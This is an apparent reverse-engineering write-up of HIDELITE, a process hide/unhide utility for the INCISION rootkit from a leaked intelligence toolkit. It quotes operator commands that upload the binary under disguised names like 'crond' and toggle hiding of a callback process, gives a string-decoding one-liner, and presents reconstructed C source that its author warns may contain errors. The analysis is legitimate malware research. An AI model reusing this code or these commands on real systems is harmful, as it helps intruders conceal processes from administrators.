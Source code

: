 # DITTELIGHT / DITTLELITE / HIDELITE

This tool can be used to unhide processes that were hidden using the INCISION rootkit. A noteable use of this tool is to unhide processes such that Oracle databases can be queried from the (previously hidden) process. The tool can also hide the process again.

In [the Oracle opscript](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/etc/oracle/opscript):
```
#########################################################################
# This is required for unhiding our processes on an INCISION box.	#
# Oracle requires that it see our processes when we query the database. #
#########################################################################
-put /current/up/hidelite.solaris.sparc $TMPDIR/nscd
```

The [HIDELITE user tool](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/doc/user.tool.dittlelight_hidelite.COMMON) provides some usage examples:
```
-put /current/bin/hidelite.sparc crond

### run hidelite to unhide the callback window:
./crond -u -p NOPEN_CALLBACK_WINDOW_PID 

...

### To hide again
./crond -h -p NOPENPID
```

Hidelite needs to run in a window that is a direct child of PID 1. ([Source](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1181-L1182))


## Reverse Engineering HIDELITE

Since my SPARC assembly was non-existent before starting this reverse engineering quest, it was a fun and small binary to reverse. There might be some mistakes in the analysis and C code though. (Always check the disassembly yourself)

Interesting to note is that it uses the same kind of string obfuscation as [the PORK traffic](../implants/pork.md) over the wire does, only the value being multiplied with, is different (`0x1d`).

You can quickly dump the hidden strings used by HIDELITE using this one-liner:
```
$ cat hidelite.solaris | perl -nle 'print join "", map{ chr((ord()*29) & 0xff) } split //' | strings
S<T6
6YA<
`W @ZW 
jk (0k 
0 \#
jk (0k 
@n`t
8jk (0k 
/bin/sh
p:hu
%s invalid address
post: %s
ioctl error
exec failed: %s
post: %s
return code = %d
usage error
PS1=hidden: 
/proc/%05d
YYqv$
```

According to [the SICKLESTAR notes](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1180) the HIDELITE binary should contain INCISION keys. I was unable to find anything that looks like it (3 random looking 32-bit integers) but it could be the 64 bytes that I called "dunno" in my C code (that's the only place it would fit).

(Warning: People have reported sudden loss of eyesight when looking at the code. Proceed with caution.)
```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>

#include<sys/ioctl.h>
#include<string.h>
#include<unistd.h>
#include<fcntl.h>

/* In the original code it's not array but just loose strings */
uint8_t encrypted_strings[][50] = {
	"\xbb\x4a\xbd\xc6\xbb\xcf\x88", /* /bin/sh */
	"\x30\x02\x88\x39", /* p:hu */
	"\xa9\xcf\xa0\xbd\xc6\x6e\x15\x5c\xbd\xb4\xa0\x15\xb4\xb4\x9a\xe9\xcf\xcf\x12", /* %s invalid address\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\xbd\xfb\x7f\x04\x5c\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* ioctl error\n */
	"\xe9\xd8\xe9\x7f\xa0\x1e\x15\xbd\x5c\xe9\xb4\x02\xa0\xa9\xcf\x12", /* exec failed: %s\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\x9a\xe9\x04\x39\x9a\xc6\xa0\x7f\xfb\xb4\xe9\xa0\xa1\xa0\xa9\xb4\x12", /* return code = %d\n */
	"\x39\xcf\x15\x53\xe9\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* usage error\n */
	"\x90\x2f\x25\xa1\x88\xbd\xb4\xb4\xe9\xc6\x02\xa0", /* PS1=hidden: */
	"\xbb\x30\x9a\xfb\x7f\xbb\xa9\xf0\xf9\xb4" /* /proc/%05d */
};

void decrypt_str(uint8_t* str, uint32_t key);
uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch);

int main(int argc, char** argv) {
	uint32_t bitmask, fp_m18h, unhide;
	uint32_t pid = bitmask = fp_m18h = unhide = 0;

	if(argc < 2) {
		decrypt_str(encrypted_strings[8], 0x1d);
		fprintf(stderr, encrypted_strings[8]);
		exit(1);
	}

	decrypt_str(encrypted_strings[1], 0x1d);
	int32_t c;
	while((c = getopt(argc, argv, encrypted_strings[1])) != -1) {
		switch(c) {
			case 'h':
				bitmask = bitmask | 0x40;
				break;
			case 'u':
				bitmask = bitmask | 0x80;
				unhide = 1;
				break;
			case 'p':
				pid = atoi(optarg);
				break;
			case 'r':
				bitmask = bitmask | 8;
				break;
		}
	}

	// 0x10c10
	bitmask = (bitmask & -3) | 4;
	uint32_t post_return_value = post(pid, bitmask, fp_m18h);
	if(post_return_value != 0) {
		if(post_return_value <= 0) { // 0x10c9c
			decrypt_str(encrypted_strings[4], 0x1d);
			fprintf(stderr, encrypted_strings[4]);
		} else { // 0x10c5c
			decrypt_str(encrypted_strings[3], 0x1d);
			fprintf(stdout, encrypted_strings[3], strerror(post_return_value));
		}
		exit(post_return_value);
	}
}

uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch) {
	struct something {
		uint32_t i; // fp_m8ch; 
		uint32_t bitmask; // fp_m88h
		uint32_t pid; // fp_m84h
		uint32_t unknown; // fp_m80h
		uint32_t thirdarg; // fp_m7ch
		char buf[0x18]; // see bzero call
		char buf2[0x40]; // see bcopy
		uint32_t two; // fp_m20c
		uint32_t minus1; // fp_m1ch
		uint32_t* bitmaskagain; // fp_m18h
		uint32_t unknown2; 
		uint32_t fourty; // fp_m10h
		uint32_t fp_mch;
		
	};

	struct something huh;
	huh.i = 0;
	bzero(&huh.buf2, 0x54);
	const char dunno[0x40] = "\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xfe\xf8\xa0\xff\xfe\xfe\x70\xff\xfe\xfd\xd0\xff\xfe\xfe\x70\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
	bcopy(dunno, &huh.buf2, 0x40); 
		// :> px 0x40 @ 0x21120
		// - offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
		// 0x00021120  0100 0000 0100 0000 0000 0000 0000 0000  ................
		// 0x00021130  0000 0000 0000 0000 0000 0000 0000 0000  ................
		// 0x00021140  fffe f8a0 fffe fe70 fffe fdd0 fffe fe70  .......p.......p
		// 0x00021150  0000 0000 0000 0000 0000 0000 0000 0000  ................

	huh.two = 2;
	bzero(&huh.bitmask, 0x28);
	huh.minus1 = -1;
	huh.fourty = 0x28;
	huh.bitmaskagain = &huh.bitmask; // Maybe a ptr, maybe the val, my SPARC is weak
	huh.bitmask = huh.bitmask | bitmask;
	huh.pid = pid;
	huh.thirdarg = fp_4ch;
	
	/* It doesn't seem like this is being saved? */
	huh.bitmask & 8;
	huh.bitmask & 0x40;
	huh.bitmask & 0x80;
	huh.bitmask & 0x20;
	huh.bitmask & 0x10;

	char procself[64];
	decrypt_str(encrypted_strings[10], 0x1d);
	sprintf(procself, encrypted_strings[10], getpid());
	int fd = open(procself, 0); /* fd = fp_m8h */
	if(fd == -1) {
		decrypt_str(encrypted_strings[6], 0x1d);
		fprintf(stdout, encrypted_strings[6], strerror(0x454)); // "post: %s" == 0x20c
		return -1;
	}

	return ioctl(fd, 0x1c | 0x1de, (void*) &huh); // second arg: 478
}

void decrypt_str(uint8_t* str, uint32_t key) {
	while(*str != 0) {
		*str = (*str * key) & 0xff;
		str++;
	}
}

```
